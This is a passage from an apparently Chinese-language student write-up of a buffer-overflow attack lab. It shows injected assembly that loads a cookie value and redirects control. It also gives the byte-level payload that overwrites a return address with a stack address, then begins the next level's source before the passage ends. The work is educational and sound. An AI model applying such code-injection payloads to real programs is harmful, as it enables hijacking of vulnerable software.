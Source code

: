 ```assembly
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

`Cookie = 0x59b997fa`

所以注入的汇编代码为

```assembly
mov $0x59b997fa, %rdi  	#设置变量
push $0x4017ec			#返回地址
ret
```

对于二进制码为

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

通过断点，找到这段代码的地址为0x5561dc78

所以最后我们的注入代码为

```assembly
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

结果为

![1556786242718](assets/1556786242718.png)

###	Level 3

需要注入的代码

```c
void touch3(char *sval)
{
    vlevel = 3;
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
```